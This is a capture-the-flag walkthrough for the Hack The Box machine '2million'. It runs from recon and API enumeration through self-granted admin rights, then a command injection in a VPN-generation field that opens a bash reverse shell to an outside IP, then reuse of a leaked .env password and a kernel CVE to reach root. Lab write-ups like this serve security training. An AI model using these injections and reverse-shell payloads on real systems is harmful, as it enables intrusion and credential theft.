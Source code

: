 
1 - RECON

nmap -A -T4 10.10.11.221     
Starting Nmap 7.92 ( https://nmap.org ) at 2023-06-11 01:02 -03
Nmap scan report for 10.10.11.221
Host is up (0.14s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx
|_http-title: Did not follow redirect to http://2million.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

sudo nmap -sC -sV  10.10.11.221
[sudo] password for r_deckard: 
Starting Nmap 7.92 ( https://nmap.org ) at 2023-06-11 01:27 -03
Nmap scan report for 2million.htb (10.10.11.221)
Host is up (0.17s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx
|_http-title: Hack The Box :: Penetration Testing Labs
|_http-trane-info: Problem with XML parsing of /evox/about
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

2 - WEB RECON

200      GET       80l      232w     3704c http://2million.htb/login
200      GET       94l      293w     4527c http://2million.htb/register
401      GET        0l        0w        0c http://2million.htb/api
401      GET        0l        0w        0c http://2million.htb/api/v1
302      GET        0l        0w        0c http://2million.htb/logout => http://2million.htb/
200      GET     1242l     3326w    64952c http://2million.htb/
302      GET        0l        0w        0c http://2million.htb/home => http://2million.htb/
200      GET       46l      152w     1674c http://2million.htb/404


## WEB FINDINGS

### IN URLS FIND JS FILES TO VALIDATE INVITE

http://2million.htb/register
http://2million.htb/js/inviteapi.min.js

makeInviteCode();

Object { 0: 200, success: 1, data: {…}, hint: "Data is encrypted ... We should probbably check the encryption type in order to decrypt it..." }

data: Object { data: "Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr", enctype: "ROT13" }

data: "Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr"

enctype: "ROT13"

### DECRYPT ROT13

In order to generate the invite code, make a POST request to /api/v1/invite/generate


### SEND REQUEST WITH CURL

curl -X POST http://2million.htb/api/v1/invite/generate

{"0":200,"success":1,"data":{"code":"VlZOUzctUjNUQVotS1pUQUEtWUM4Ukc=","format":"encoded"}}

### DECODED INVITE CODE

echo VlZOUzctUjNUQVotS1pUQUEtWUM4Ukc= | base64 -d
VVNS7-R3TAZ-KZTAA-YC8RG

### REGISTER/LOGIN

fatboy

fatboysec@mail.com

123456789

### IN USER ACCOUNT HAVE PAGE FOR GIVE ACCESS TO VPN

http://2million.htb/home/access

download file: http://2million.htb/api/v1/user/vpn/generate

(/api/v1/)

### ENUMERATE API

http://2million.htb/api/v1

{"v1":{"user":{
"GET":{
"\/api\/v1":"Route List",
"\/api\/v1\/invite\/how\/to\/generate":"Instructions on invite code generation",
"\/api\/v1\/invite\/generate":"Generate invite code",
"\/api\/v1\/invite\/verify":"Verify invite code",
"\/api\/v1\/user\/auth":"Check if user is authenticated",
"\/api\/v1\/user\/vpn\/generate":"Generate a new VPN configuration",
"\/api\/v1\/user\/vpn\/regenerate":"Regenerate VPN configuration",
"\/api\/v1\/user\/vpn\/download":"Download OVPN file"},
"POST":{
"\/api\/v1\/user\/register":"Register a new user",
"\/api\/v1\/user\/login":"Login with existing user"}},
"admin":{"GET":{
"\/api\/v1\/admin\/auth":"Check if user is admin"},
"POST":{"\/api\/v1\/admin\/vpn\/generate":"Generate VPN for specific user"},
"PUT":{"\/api\/v1\/admin\/settings\/update":"Update user settings"}}}}


### ENDPOINT MORE INTERESTING

http://2million.htb/api/v1/admin/settings/update

PUT /api/v1/admin/settings/update
{
"email": "fatboysec@mail.com",
"is_admin": 1
}

POST /api/v1/admin/vpn/generate (return file for vpn)
{
"username": "fatboy"
}

### EXPLORATION ENDPOINT /api/v1/admin/vpn/generate


POST /api/v1/admin/vpn/generate
{
"username": "fatboy; id;"
}

### HAVE SHELL 

POST /api/v1/admin/vpn/generate
{
"username": "fatboy; bash -c 'sh -i >& /dev/tcp/10.10.14.96/1234 0>&1' ;"
}

### ON MACHINE

www-data@2million:~/html$ ls -lah 

drwxr-xr-x 10 root root 4.0K Jun 11 19:20 .
drwxr-xr-x  3 root root 4.0K Jun 11 16:17 ..
-rw-r--r--  1 root root   87 Jun  2 18:56 .env
-rw-r--r--  1 root root 1.3K Jun  2 16:15 Database.php
-rw-r--r--  1 root root 2.8K Jun  2 16:15 Router.php
drwxr-xr-x  5 root root 4.0K Jun 11 19:20 VPN
drwxr-xr-x  2 root root 4.0K Jun  6 10:22 assets
drwxr-xr-x  2 root root 4.0K Jun  6 10:22 controllers
drwxr-xr-x  5 root root 4.0K Jun  6 10:22 css
drwxr-xr-x  2 root root 4.0K Jun  6 10:22 fonts
drwxr-xr-x  2 root root 4.0K Jun  6 10:22 images
-rw-r--r--  1 root root 2.7K Jun  2 18:57 index.php
drwxr-xr-x  3 root root 4.0K Jun  6 10:22 js
drwxr-xr-x  2 root root 4.0K Jun  6 10:22 views

### FIND .env FILE

www-data@2million:~/html$ cat .env

cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123


### TRY PASS TO ADMIN

www-data@2million:~/html$ su admin
su admin
Password: SuperDuperPass123

To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.


### HAVE PRIV ESC

admin@2million:~$ 
/home/admin

admin@2million:~$ cat user.txt
cat user.txt

user flag (95d3a4005e3aae479bb651ced88a1533)


### MACHINE EXPLORATION

admin@2million:/var$ cat /var/mail/admin

From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather

### PRIV ESC TO ROOT WITH CVE

#### CVE FIND  = cve-2023-0386

poc https://github.com/DataDog/security-labs-pocs/tree/main/proof-of-concept-exploits/overlayfs-cve-2023-0386

### COPY poc.c AND Makefile TO TARGET MACHINE, COMPILE, RUN AND EXPLOIT
